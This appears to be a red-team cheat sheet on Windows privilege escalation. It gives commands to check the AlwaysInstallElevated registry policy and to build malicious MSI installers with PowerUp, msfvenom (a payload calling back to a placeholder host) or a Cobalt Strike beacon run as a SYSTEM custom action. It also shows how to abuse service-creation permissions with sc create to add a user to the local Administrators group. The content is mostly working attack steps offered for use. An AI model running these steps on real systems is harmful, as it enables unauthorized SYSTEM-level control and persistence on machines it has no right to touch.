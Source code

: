 #### Search for always install elevated
```
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer
```

#### Create msi
- https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1
```
Write-UserAddMSI
```
 
```
msfvenom -p <PAYLOAD> lhost=<IP> -f msi -o setup.msi
```
 
#### Create msi from cobalstrike beacon
- To exploit this, we need to package a payload into an MSI installer that will be installed and executed with SYSTEM privileges.
  - Generate a new Windows EXE TCP payload and save it to C:\Payloads\beacon-tcp.exe.
  - Open Visual Studio, select Create a new project and type "installer" into the search box. Select the Setup Wizard project and click Next.
  - Give the project a name, like BeaconInstaller, use C:\Payloads for the location, select place solution and project in the same directory, and click Create.
  - Keep clicking Next until you get to step 3 of 4 (choose files to include). Click Add and select the Beacon payload you just generated. Then click Finish.
  - Highlight the BeaconInstaller project in the Solution Explorer and in the Properties, change TargetPlatform from x86 to x64. 
  - Right-click the project and select View > Custom Actions.
  - Right-click Install and select Add Custom Action.
  - Double-click on Application Folder, select your beacon-tcp.exe file and click OK. This will ensure that the beacon payload is executed as soon as the installer is run.
  - Under the Custom Action Properties, change Run64Bit to True.
  - Now build the project, which should produce an MSI at ```C:\Payloads\BeaconInstaller\Debug\BeaconInstaller.msi```.
  - To remove the MSI afterwards, you can use ```msiexec /q /n /uninstall BeaconInstaller.msi``` before removing the file.

### SC manager abuse
#### Show permissions for service creation
```
sc sdshow scmanager
```
 
#### Convert permissions
```
$string = <PERMISSIONS>
ConvertFrom-SddlString $string
```

#### Create service
```
sc create MyService displayName= "MyService" binPath= "C:\Windows\System32\net.exe localgroup Administrators <USER> /add" start= auto
```
